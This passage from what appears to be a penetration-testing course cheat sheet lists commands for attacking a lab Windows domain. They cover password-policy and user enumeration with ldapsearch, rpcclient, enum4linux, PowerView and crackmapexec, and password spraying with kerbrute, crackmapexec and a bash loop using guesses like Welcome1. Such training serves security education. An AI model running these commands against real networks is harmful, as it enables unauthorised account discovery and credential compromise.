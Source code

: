     Uses `ldapsearch` to enumerate the password policy in a target Windows domain from a Linux-based host.

`net accounts`

    Used to enumerate the password policy in a Windows domain from a Windows-based host.

`Import-Module .\PowerView.ps1`

    Uses the Import-Module cmd-let to import the `PowerView.ps1` tool from a Windows-based host.

`Get-DomainPolicy`

    Used to enumerate the password policy in a target Windows domain from a Windows-based host.

`enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"`

    Uses `enum4linux` to discover user accounts in a target Windows domain, then leverages `grep` to filter the output to just display the user from a Linux-based host.

`rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser`

    Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host.

`crackmapexec smb 172.16.5.5 --users`

    Uses `CrackMapExec` to discover users (`--users`) in a target Windows domain from a Linux-based host.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "`

    Uses `ldapsearch` to discover users in a target Windows doman, then filters the output using `grep` to show only the `sAMAccountName` from a Linux-based host.

`./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

    Uses the python tool `windapsearch.py` to discover users in a target Windows domain from a Linux-based host.

`for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`

    Bash one-liner used to perform a password spraying attack using `rpcclient` and a list of users (`valid_users.txt`) from a Linux-based host. It also filters out failed attempts to make the output cleaner.

`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`

    Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

    Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`.

`sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`

    Uses `CrackMapExec` to validate a set of credentials from a Linux-based host.
